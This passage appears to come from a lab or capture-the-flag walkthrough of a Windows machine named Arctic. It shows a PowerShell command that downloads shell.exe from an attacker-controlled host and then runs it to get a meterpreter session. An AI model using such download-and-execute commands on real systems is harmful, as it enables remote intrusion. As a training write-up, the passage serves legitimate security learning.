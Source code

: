```sh
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.9:8000/shell.exe','shell.exe')"
```

![](/Windows/Windows-Easy/Arctic/Screenshots/exploitdownload.png)

from the python server we see that it has uploaded the shell

![](/Windows/Windows-Easy/Arctic/Screenshots/pyhonserver.png)

so we run the shell.exe to get the meterpreter
